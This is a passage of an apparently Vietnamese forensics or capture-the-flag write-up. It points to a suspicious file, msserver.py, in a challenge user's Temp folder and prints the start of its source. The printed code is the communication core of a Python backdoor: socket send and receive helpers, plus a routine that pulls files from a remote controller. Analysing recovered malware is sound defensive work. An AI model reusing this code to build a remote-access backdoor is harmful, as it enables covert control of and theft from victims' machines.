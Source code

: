 Kiểm tra và lấy file trong folder path : C:\Users\challenge\AppData\Local\Temp\msserver.py
![image](/images/hackmd/SkUU2PGNgx.png)
```
import json
import os
import shutil
import socket
import subprocess
import sys
import time
from sys import platform
import requests
import base64


def reliable_send(data):
    jsondata = json.dumps(data)
    s.send(jsondata.encode())


def reliable_recv():
    data = ""
    while True:
        try:
            data = data + s.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue


def download_file(file_name):
    f = open(file_name, "wb")
    s.settimeout(2)
    chunk = s.recv(1024)
    while chunk:
        f.write(chunk)
        try:
            chunk = s.recv(1024)
        except socket.timeout as e:
            break
    s.settimeout(None)
    f.close()


```